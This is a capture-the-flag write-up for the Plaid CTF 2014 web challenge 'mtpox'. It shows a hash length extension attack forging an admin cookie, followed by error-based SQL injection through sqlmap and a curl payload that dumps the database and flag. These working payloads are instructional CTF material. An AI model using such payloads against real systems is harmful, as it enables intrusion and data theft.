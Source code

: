# Plaid CTF 2014: mtpox

**Category:** Web
**Points:** 150
**Description:**

> The Plague has traveled back in time to create a cryptocurrency before Satoshi does in an attempt to quickly gain the resources required for his empire. As you step out of your time machine, you learn [his exchange](http://54.211.6.40/) has stopped trades, due to some sort of bug. However, if you could break into the database and show a different story of where the coins went, we might be able to stop The Plague.
>
> Hint: try reading things using `?page=`.

## Write-up

The “Index” link on the website points to [`/index.php?page=index`](http://54.211.6.40/). Playing around with that URL query string parameter reveals that the site is vulnerable to source code disclosure. We exploit this vulnerability to get the source code for [`index.php`](index.php) (via [`/index.php?page=index.php`](http://54.211.6.40/index.php?page=index.php)) and [`admin.php`](admin.php) (via [`/index.php?page=admin.php`](http://54.211.6.40/index.php?page=admin.php)).

(TODO: explain hash length extension attack)

Hash Length Extension attack:
    http://en.wikipedia.org/wiki/Length_extension_attack
    https://github.com/bwall/HashPump
    https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks

```bash
$ hashpump -s 'ef16c2bffbcf0b7567217f292f9c2a9a50885e01e002fa34db34c0bb916ed5c3' -d ';0:b' -a ';1:b' -k '8967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1'
;0:b\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00`;1:b
```

Don't forget to reverse this string and URL-encode it! This cookie works:

```
auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1
```

The `query` URL parameter for [`admin.php`](http://54.211.6.40/admin.php?query=lol) is vulnerable to SQL injection. Let’s see what kind of data we can leak using [`sqlmap`](http://sqlmap.org/):

```bash
$ sqlmap.py -u 'http://54.211.6.40/admin.php?query=abc' --cookie='auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' --dump-all

    sqlmap/0.9 - automatic SQL injection and database takeover tool
    http://sqlmap.sourceforge.net

[*] starting at: 21:23:38

[21:23:38] [INFO] using '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/session' as session file
[21:23:38] [INFO] testing connection to the target url
[21:23:38] [INFO] testing if the url is stable, wait a few seconds
[21:23:40] [INFO] url is stable
[21:23:40] [INFO] testing if GET parameter 'query' is dynamic
[21:23:40] [INFO] confirming that GET parameter 'query' is dynamic
[21:23:40] [INFO] GET parameter 'query' is dynamic
[21:23:40] [INFO] heuristic test shows that GET parameter 'query' might be injectable (possible DBMS: MySQL)
[21:23:40] [INFO] testing sql injection on GET parameter 'query'
[21:23:40] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[21:23:42] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
[21:23:43] [INFO] GET parameter 'query' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause' injectable
[21:23:43] [INFO] testing 'MySQL > 5.0.11 stacked queries'
[21:23:43] [INFO] testing 'MySQL > 5.0.11 AND time-based blind'
[21:23:43] [INFO] testing 'MySQL UNION query (NULL) - 1 to 10 columns'
[21:23:45] [INFO] testing 'Generic UNION query (NULL) - 1 to 10 columns'
GET parameter 'query' is vulnerable. Do you want to keep testing the others? [y/N] y
sqlmap identified the following injection points with a total of 33 HTTP(s) requests:
---
Place: GET
Parameter: query
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE or HAVING clause
    Payload: query=abc AND (SELECT 1000 FROM(SELECT COUNT(*),CONCAT(CHAR(58,98,119,100,58),(SELECT (CASE WHEN (1000=1000) THEN 1 ELSE 0 END)),CHAR(58,108,110,101,58),FLOOR(RAND(0)*2))x FROM information_schema.tables GROUP BY x)a)
---

[21:25:35] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian or Ubuntu
web application technology: Apache 2.2.22, PHP 5.4.4
back-end DBMS: MySQL 5.0
[21:25:35] [INFO] sqlmap will dump entries of all databases' tables now
[21:25:35] [INFO] fetching tables
[21:25:35] [INFO] fetching database names
[21:25:35] [INFO] the SQL query used returns 2 entries
[21:25:35] [INFO] retrieved: information_schema
[21:25:35] [INFO] retrieved: mtpox
[21:25:35] [INFO] the SQL query used returns 41 entries
[21:25:36] [INFO] retrieved: information_schema
[21:25:36] [INFO] retrieved: CHARACTER_SETS
[21:25:36] [INFO] retrieved: information_schema
[21:25:36] [INFO] retrieved: COLLATIONS
[21:25:36] [INFO] retrieved: information_schema
[21:25:37] [INFO] retrieved: COLLATION_CHARACTER_SET_APPLICABILITY
[21:25:37] [INFO] retrieved: information_schema
[21:25:37] [INFO] retrieved: COLUMNS
[21:25:37] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: COLUMN_PRIVILEGES
[21:25:38] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: ENGINES
[21:25:38] [INFO] retrieved: information_schema
[21:25:38] [INFO] retrieved: EVENTS
[21:25:39] [INFO] retrieved: information_schema
[21:25:39] [INFO] retrieved: FILES
[21:25:39] [INFO] retrieved: information_schema
[21:25:39] [INFO] retrieved: GLOBAL_STATUS
[21:25:39] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: GLOBAL_VARIABLES
[21:25:40] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: KEY_COLUMN_USAGE
[21:25:40] [INFO] retrieved: information_schema
[21:25:40] [INFO] retrieved: PARAMETERS
[21:25:41] [INFO] retrieved: information_schema
[21:25:41] [INFO] retrieved: PARTITIONS
[21:25:41] [INFO] retrieved: information_schema
[21:25:41] [INFO] retrieved: PLUGINS
[21:25:42] [INFO] retrieved: information_schema
[21:25:42] [INFO] retrieved: PROCESSLIST
[21:25:42] [INFO] retrieved: information_schema
[21:25:42] [INFO] retrieved: PROFILING
[21:25:42] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: REFERENTIAL_CONSTRAINTS
[21:25:43] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: ROUTINES
[21:25:43] [INFO] retrieved: information_schema
[21:25:43] [INFO] retrieved: SCHEMATA
[21:25:44] [INFO] retrieved: information_schema
[21:25:44] [INFO] retrieved: SCHEMA_PRIVILEGES
[21:25:44] [INFO] retrieved: information_schema
[21:25:44] [INFO] retrieved: SESSION_STATUS
[21:25:45] [INFO] retrieved: information_schema
[21:25:45] [INFO] retrieved: SESSION_VARIABLES
[21:25:45] [INFO] retrieved: information_schema
[21:25:45] [INFO] retrieved: STATISTICS
[21:25:45] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLES
[21:25:46] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLESPACES
[21:25:46] [INFO] retrieved: information_schema
[21:25:46] [INFO] retrieved: TABLE_CONSTRAINTS
[21:25:47] [INFO] retrieved: information_schema
[21:25:47] [INFO] retrieved: TABLE_PRIVILEGES
[21:25:47] [INFO] retrieved: information_schema
[21:25:47] [INFO] retrieved: TRIGGERS
[21:25:47] [INFO] retrieved: information_schema
[21:25:48] [INFO] retrieved: USER_PRIVILEGES
[21:25:48] [INFO] retrieved: information_schema
[21:25:48] [INFO] retrieved: VIEWS
[21:25:48] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_BUFFER_PAGE
[21:25:49] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_TRX
[21:25:49] [INFO] retrieved: information_schema
[21:25:49] [INFO] retrieved: INNODB_BUFFER_POOL_STATS
[21:25:50] [INFO] retrieved: information_schema
[21:25:50] [INFO] retrieved: INNODB_LOCK_WAITS
[21:25:50] [INFO] retrieved: information_schema
[21:25:50] [INFO] retrieved: INNODB_CMPMEM
[21:25:50] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_CMP
[21:25:51] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_LOCKS
[21:25:51] [INFO] retrieved: information_schema
[21:25:51] [INFO] retrieved: INNODB_CMPMEM_RESET
[21:25:52] [INFO] retrieved: information_schema
[21:25:52] [INFO] retrieved: INNODB_CMP_RESET
[21:25:52] [INFO] retrieved: information_schema
[21:25:52] [INFO] retrieved: INNODB_BUFFER_PAGE_LRU
[21:25:53] [INFO] retrieved: mtpox
[21:25:53] [INFO] retrieved: plaidcoin_wallets
[21:25:53] [INFO] fetching columns for table 'plaidcoin_wallets' on database 'mtpox'
[21:25:53] [INFO] the SQL query used returns 2 entries
[21:25:53] [INFO] retrieved: id
[21:25:54] [INFO] retrieved: varchar(40)
[21:25:54] [INFO] retrieved: amount
[21:25:54] [INFO] retrieved: int(30)
[21:25:54] [INFO] fetching entries for table 'plaidcoin_wallets' on database 'mtpox'
[21:25:54] [INFO] the SQL query used returns 1 entries
[21:25:54] [INFO] retrieved: 1333337
[21:25:55] [INFO] retrieved: flag{phpPhPphpPPPphpcoin}
Database: mtpox
Table: plaidcoin_wallets
[1 entry]
+---------+---------------------------+
| amount  | id                        |
+---------+---------------------------+
| 1333337 | flag{phpPhPphpPPPphpcoin} |
+---------+---------------------------+

[21:25:55] [INFO] Table 'mtpox.plaidcoin_wallets' dumped to CSV file '/usr/local/Cellar/sqlmap/0.9/output/54.211.6.40/dump/mtpox/plaidcoin_wallets.csv'
[21:25:55] [INFO] fetching columns for table 'CHARACTER_SETS' on database 'information_schema'
[21:25:55] [INFO] the SQL query used returns 4 entries
[21:25:55] [INFO] retrieved: CHARACTER_SET_NAME
…
```

The flag is `flag{phpPhPphpPPPphpcoin}`.

For the record, the payload `sqlmap` used to get the flag was:

```bash
$ curl --cookie 'auth=b%3a1%3b%60%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%80b%3a0%3b; hsh=967ca6fa9eacfe716cd74db1b1db85800e451ca85d29bd27782832b9faa16ae1' 'http://54.211.6.40/admin.php?query=abc%20AND%20%28SELECT%203497%20FROM%28SELECT%20COUNT%28%2A%29%2CCONCAT%28CHAR%2858%2C103%2C99%2C121%2C58%29%2C%28SELECT%20MID%28%28IFNULL%28CAST%28id%20AS%20CHAR%29%2CCHAR%2832%29%29%29%2C1%2C50%29%20FROM%20mtpox.plaidcoin_wallets%20LIMIT%200%2C1%29%2CCHAR%2858%2C118%2C117%2C112%2C58%29%2CFLOOR%28RAND%280%29%2A2%29%29x%20FROM%20information_schema.tables%20GROUP%20BY%20x%29a%29'
Query failed: Duplicate entry ':gcy:flag{phpPhPphpPPPphpcoin}:vup:1' for key 'group_key'
```

## Other write-ups

* none yet
